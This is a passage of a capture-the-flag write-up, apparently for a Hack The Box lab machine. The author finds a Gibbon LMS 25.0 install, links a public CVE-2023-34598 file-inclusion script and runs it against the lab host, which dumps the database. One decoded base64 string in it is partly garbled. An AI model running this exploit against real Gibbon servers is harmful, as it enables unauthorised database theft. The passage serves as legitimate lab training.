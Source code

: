![](CYBERSECURITY/IMAGES/Pasted%20image%2020250616142828.png)


If we check the source code we can find this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250616142853.png)



```
V2FudCB0byBsZWFybiBoYWNraW5nIGJ1dCBkb24ndCB3YW50IHRvIGdvIHRvIGphYmwvIFlvdsdscbBSZWFybiB0aGUgYXV4cnhhbG9nb3YycyBvZiB0aGVpciBhcHBsaWNhdGlvbnMuIFRoZXJlIHdpbGwgYmUgbGVnYWwgc2VjdGlvbnMgYXMgaGFja2luZyBpcyBpbGxlZ2FsIGluIG1hbnkgY291bnRyaWVzLg==
```

If we decode the string, nothing interesting can be found:

```
Want to learn hacking but don't want to go to jabl/ YovÇlq°Rearn the auxrxalogov2s of their applications. There will be legal sections as hacking is illegal in many countries.
```

On the source code we can see this too:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250616143718.png)

There's a `Gibbon LMS` directory on here, if we check it, we can find this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250616143754.png)

We find a login page but more importantly, we can find this is running `Gibbon 25.0`, if we search for an exploit, we can find this:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250616165721.png)

We find `LFI` regarding this version, there's a python script that automates the process, let's use it:

REPO: https://github.com/Zer0F8th/CVE-2023-34598

Let's proceed to exploitation.



# EXPLOITATION
---

Ok, we only did a basic enumeration since we don't have credentials yet, let's use the script and check if it works:

```python
python3 CVE-2023.34598.py scan http://frizzdc.frizz.htb/gibbon-lms
[*] Scanning URL: http://frizzdc.frizz.htb/gibbon-lms
[+] Target appears vulnerable. Saving dump...
[+] Database dump saved to 'Gibbon_dump/gibbon.sql'.
```
